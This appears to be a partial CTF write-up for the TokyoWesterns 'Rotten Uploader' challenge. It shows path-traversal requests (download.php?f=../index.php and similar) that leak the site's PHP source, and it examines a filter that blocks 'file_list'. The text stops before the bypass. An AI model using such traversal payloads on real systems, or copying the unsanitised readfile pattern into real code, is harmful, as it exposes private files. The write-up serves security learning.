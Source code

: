 # Rotten Uploader writeup(LFI)
[Challenge.](http://rup.chal.ctf.westerns.tokyo/)

![Landing](/images/Landing.png)

Begin to hover a link to reveal: `http://rup.chal.ctf.westerns.tokyo/download.php?f=test.cpp`

Is vulnerable to LFI? Yes!
Get the index.php with  `http://rup.chal.ctf.westerns.tokyo/download.php?f=../index.php` , cause download take file from upload dir.

```
<?php
/**
 *
 */
include('file_list.php'); <-- Interesting
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0 Level 2//EN">
<html>
  <head>
    <title>Uploader</title>
  </head>
  <body>
    <h1>Simple Uploader</h1>
    <p>There are no upload features.</p>
    <h3>Files</h3>
    <table width="100%" border="1">
		  <tr>
			<th>#</th>
			<th>Filename</th>
			<th>Size</th>
			<th>Link</th>
		  </tr>
			  <?php foreach($files as $file): ?>
	<?php if($file[0]) continue; // visible flag ?>  
		  <tr>
			<td><?= $file[1]; ?></td>
			<td><?= $file[2]; ?></td>
			<td><?= $file[3]; ?> bytes</td>
			<td><a href="download.php?f=<?= $file[4]; ?>">Download</a></td>
		  </tr>
          <?php endforeach;?>
      </table>
  </body>
</html>
```
Next step: GET file_list.php!

LFI: `http://rup.chal.ctf.westerns.tokyo/download.php?f=../file_list.php` --> file empty

Maybe the download.php is filtering our request :
`http://rup.chal.ctf.westerns.tokyo/download.php?f=../download.php`

```
<?php
header("Content-Type: application/octet-stream");
if(stripos($_GET['f'], 'file_list') !== FALSE) die(); <- FILTER
readfile('uploads/' . $_GET['f']); // safe_dir is enabled. 
?>
```
Basically the filter drops the GET for the file_list file... 

